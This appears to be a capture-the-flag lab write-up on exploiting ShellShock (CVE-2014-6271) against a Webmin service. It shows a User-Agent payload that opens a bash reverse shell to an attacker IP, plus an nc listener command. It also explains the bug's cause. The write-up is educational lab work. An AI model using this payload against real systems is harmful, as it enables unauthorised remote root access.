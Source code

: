 # Solution #3

This solution involves attacking port 10000.

First, visit the webmin application.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/129.jpg)

- Then intercept the request in Burp and send it to Repeater. Change the User Agent field to the following string.

```bash
() { :;}; bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```

- What that does is it exploits the ShellShock vulnerability and sends a reverse shell back to our attack machine. If you’re not familiar with ShellShock, the following [image](http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell) explains it really well.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/130.jpg)

- Set up a listener to receive the reverse shell.

```bash
nc -nlvp 4444
```

- Send the request and we get a shell!

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/131.jpg)

- For this solution we also don’t need to escalate privileges since we’re already root!

---
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/132.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/133.jpg)

if it is a apache shell shock it will give you hello

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/134.jpg)

## we can do blind code execution

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/135.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/136.jpg)

## course of shell shock vulnerabilty

The cause of the vulnerability lies in a loophole in the Bash algorithm which parses the values of environment variables. According to [CVE-2014–6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271), the vulnerable Bash version _“processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment”_.
